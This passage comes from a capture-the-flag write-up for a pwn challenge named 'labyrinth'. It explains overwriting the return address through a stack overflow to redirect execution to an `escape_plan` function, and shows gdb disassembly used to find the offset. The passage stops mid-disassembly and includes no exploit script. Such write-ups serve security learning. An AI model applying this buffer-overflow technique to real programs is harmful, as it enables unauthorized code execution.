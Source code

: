 ```c
  return;
}
```

It appears that this function `escape_plan` is responsible for printing the flag.

Therefore, in order to obtain the flag, we need to overwrite the `RIP` address with the address of the `escape_plan` function, which can be achieved by exploiting the stack overflow.

To determine the exact offset between `local_38` and `RIP`, we can use gdb.

Disassemble `main` function:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/labyrinth]
└──╼ $  gdb labyrinth
gef➤  disassemble main
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000000000401405 <+0>:	push   rbp
   0x0000000000401406 <+1>:	mov    rbp,rsp
   0x0000000000401409 <+4>:	sub    rsp,0x30
   0x000000000040140d <+8>:	call   0x4013ae <setup>
   0x0000000000401412 <+13>:	call   0x40137b <banner>
   0x0000000000401417 <+18>:	mov    QWORD PTR [rbp-0x30],0x0
   0x000000000040141f <+26>:	mov    QWORD PTR [rbp-0x28],0x0
   0x0000000000401427 <+34>:	mov    QWORD PTR [rbp-0x20],0x0
   0x000000000040142f <+42>:	mov    QWORD PTR [rbp-0x18],0x0
   0x0000000000401437 <+50>:	mov    rax,QWORD PTR [rip+0x2bd2]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x000000000040143e <+57>:	mov    rcx,rax
   0x0000000000401441 <+60>:	mov    edx,0x10
   0x0000000000401446 <+65>:	mov    esi,0x1
   0x000000000040144b <+70>:	lea    rdi,[rip+0x100b]        # 0x40245d
   0x0000000000401452 <+77>:	call   0x401130 <fwrite@plt>
   0x0000000000401457 <+82>:	mov    QWORD PTR [rbp-0x8],0x1
   0x000000000040145f <+90>:	jmp    0x401519 <main+276>
   0x0000000000401464 <+95>:	cmp    QWORD PTR [rbp-0x8],0x9
   0x0000000000401469 <+100>:	ja     0x40148c <main+135>
   0x000000000040146b <+102>:	mov    rax,QWORD PTR [rip+0x2b9e]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x0000000000401472 <+109>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401476 <+113>:	lea    rsi,[rip+0xff1]        # 0x40246e
   0x000000000040147d <+120>:	mov    rdi,rax
   0x0000000000401480 <+123>:	mov    eax,0x0
   0x0000000000401485 <+128>:	call   0x4010c0 <fprintf@plt>
   0x000000000040148a <+133>:	jmp    0x4014d3 <main+206>
   0x000000000040148c <+135>:	cmp    QWORD PTR [rbp-0x8],0x63
   0x0000000000401491 <+140>:	ja     0x4014b4 <main+175>
   0x0000000000401493 <+142>:	mov    rax,QWORD PTR [rip+0x2b76]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x000000000040149a <+149>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000040149e <+153>:	lea    rsi,[rip+0xfd5]        # 0x40247a
   0x00000000004014a5 <+160>:	mov    rdi,rax
   0x00000000004014a8 <+163>:	mov    eax,0x0
   0x00000000004014ad <+168>:	call   0x4010c0 <fprintf@plt>
   0x00000000004014b2 <+173>:	jmp    0x4014d3 <main+206>
   0x00000000004014b4 <+175>:	mov    rax,QWORD PTR [rip+0x2b55]        # 0x404010 <stdout@GLIBC_2.2.5>
   0x00000000004014bb <+182>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004014bf <+186>:	lea    rsi,[rip+0xfbf]        # 0x402485
   0x00000000004014c6 <+193>:	mov    rdi,rax
   0x00000000004014c9 <+196>:	mov    eax,0x0
   0x00000000004014ce <+201>:	call   0x4010c0 <fprintf@plt>
   0x00000000004014d3 <+206>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004014d7 <+210>:	movabs rdx,0xcccccccccccccccd
```